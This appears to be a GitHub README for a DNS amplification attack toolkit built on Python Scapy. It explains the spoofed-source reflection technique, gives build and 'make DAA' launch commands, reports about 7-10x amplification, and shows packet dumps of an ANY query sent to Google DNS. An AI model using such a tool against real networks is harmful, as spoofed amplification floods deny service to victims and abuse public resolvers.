 DNS Amplification attack
===
contribute by < `ztex` >
[github-Dns-Amplification-Attack](https://github.com/tony2037/Dns-Amplification-Attack)

# How does it work ?
According to [DNS Amplification Attack](https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/) :

1. The attacker uses a compromised endpoint to send UDP packets with spoofed IP addresses to a DNS recursor. The spoofed address on the packets points to the real IP address of the victim.
2. Each one of the UDP packets makes a request to a DNS resolver, often passing an argument such as “ANY” in order to receive the largest response possible.
3. After receiving the requests, the DNS resolver, which is trying to be helpful by responding, sends a large response to the spoofed IP address.
4. The IP address of the target receives the response and the surrounding network infrastructure becomes overwhelmed with the deluge of traffic, resulting in a denial-of-service.

![](https://i.imgur.com/2LJ8JU4.png)

# Experience
## Explanation
In this experience, I firstly develop a toolkit base on **pathon scapy** which send a **UDP/IP** packet carry a **DNS** packet with **DNS Resource Record** packet.
The `destination` is `8.8.8.8`, which is well-known **google DNS server**.
In the experience phase, the `source address` is local, but can be easily change to `victim address` in attack phase.
- [ ] DAA.py
Used for lauching attack
- [ ] sniffer.py
Used for sniffing packet to varify

## Result
Sending: 70 bytes
Receiving: 500~ 700 bytes
$A=$$7$~$10$

## Usage
### Build virtual environment
`virtualenv .`
### Install necessary packages
`pip3 install -r requirement`
### Lauch attack
`make DAA`
### Sniffing
`make sniffer`
### Snapshot
#### Send packet
```shell
         |###[ DNS Question Record ]### 
         |  qname     = 'qq.com'
         |  qtype     = ALL
         |  qclass    = IN
        an        = None
        ns        = None
        ar        = None

Are you sure you want to attack ? [Y]/NY
.
Sent 1 packets.
```
#### Sniffing
```shell
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 52
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x608a
     src       = 10.1.0.30
     dst       = 8.8.8.8
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = domain
        len       = 32
        chksum    = 0x9f30
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'qq.com.'
            |  qtype     = ALL
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None
```
